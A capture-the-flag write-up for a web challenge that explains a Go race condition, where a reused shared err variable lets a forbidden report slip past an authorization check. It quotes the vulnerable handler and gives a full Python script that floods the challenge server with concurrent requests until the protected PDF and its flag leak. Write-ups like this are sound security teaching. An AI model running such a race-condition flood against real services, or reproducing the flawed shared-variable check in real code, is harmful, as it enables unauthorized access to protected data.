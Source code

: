 ```yaml
---
title: "██████████"
description: "RISC intro2web challenge 7"
pubDate: "Aug 27 2025"
heroImage: "/hero/index-bank-robber_Raaquilla.webp"
tags: ["cyber", "go", "python", "ctf", "exploit"]
---
```


###### [Canonical > RISC](https://writeups.urisc.club/web/7___________/)

## Challenge description

The ██████ with ███████ has ██████ and the ███ ███ ███████. Report ID 6 is not to be ████████.

---

## Approach

We can go to `/transparency/` and find that "Report ID 6" from the hint is referring to `Report 6 (PDF) (TO BE REVIEWED)` from the Transparency Report.

Looking at the `session.go` source code we find the vulnerability here:

```go
sockdir := "/tmp/session." + session
err := os.Mkdir(sockdir, 0o777)
if err != nil {
	panic(err)
}

http.HandleFunc("/getReport", func(w http.ResponseWriter, r *http.Request) {
	id := r.URL.Query().Get("id")
	if err = shouldAllowReport(id); err != nil {
		http.Error(w, "Invalid report!", http.StatusInternalServerError)
		return
	}

	file, err := os.Open("reports/" + id)
	if err != nil {
		http.Error(w, "Filesystem Error", http.StatusInternalServerError)
		return
	}

	data, err := io.ReadAll(io.LimitReader(file, 16777216))
	if err != nil {
		http.Error(w, "File Read Error", http.StatusInternalServerError)
		return
	}

	w.Write(data)
})
```

Specifically, `if err = shouldAllowReport(id)` doesnt use `:=` to declare and assign `err` like all the other calls, instead it uses ` =` which assigns the error to the previously declared `err` at `err := os.Mkdir(sockdir, 0o777)`.

This means that all threads of the `/getReport` http handler will use the same `err` variable, exposing a potential race condition where a request for `6.pdf` sets `err`, then a request to an allowed pdf sets it to `nil` making the `err != nil` check after `shouldAllowReport` pass for the `6.pdf` request.

We will attempt to hit the race condition by spamming requests to the server, some for 05.pdf which is allowed but returns a filesystem error to be faster than returning the pdf content, and some for 6.pdf to get our flag.

### Python implementation

```python
import requests
import os
from multiprocessing import Process, Queue

URL = "http://leftmanbrothers.ctf.urisc.club"


def worker(report_id, queue, cookie):
	sess = requests.Session()
	sess.cookies.set("sessionid", cookie)

	while True:
		r = sess.get(f"{URL}/transparency/getReport", params={"id": report_id})

		if r.status_code == 502:
			queue.put(None)
			return

		if report_id == "6.pdf" and r.status_code == 200:
			queue.put(r.content)
			return


def main():
	while True:
		queue = Queue()

		sess = requests.Session()
		r = sess.get(f"{URL}/transparency/")
		session_id = r.cookies.get("sessionid")

		print("Starting new session: ", session_id)

		processes = []
		for _ in range(14):
			p = Process(target=worker, args=("05.pdf", queue, session_id))
			processes.append(p)
			p.start()

		for _ in range(14):
			p = Process(target=worker, args=("6.pdf", queue, session_id))
			processes.append(p)
			p.start()

		flag = queue.get()

		for p in processes:
			p.terminate()
			p.join()

		queue.close()
		queue.join_thread()

		if flag is not None:
			with open("/tmp/6.pdf", "wb") as f:
				f.write(flag)

			print("Flag written to /tmp/6.pdf!")
			os.popen("open /tmp/6.pdf")
			break


if __name__ == "__main__":
	main()
```

After running for a few minutes, we get a success and find a sensitive note in 6.pdf:

> In recognition of the extraordinary discretion required, authentication for all internal<br>
> requests related to Project Backdoor will utilize the following passphrase:<br>
> RISC{leftman_liquidity_forever_9a7f42}<br>
> This string is not to be transmitted over open channels.

Our flag is:

```
RISC{leftman_liquidity_forever_9a7f42}
```
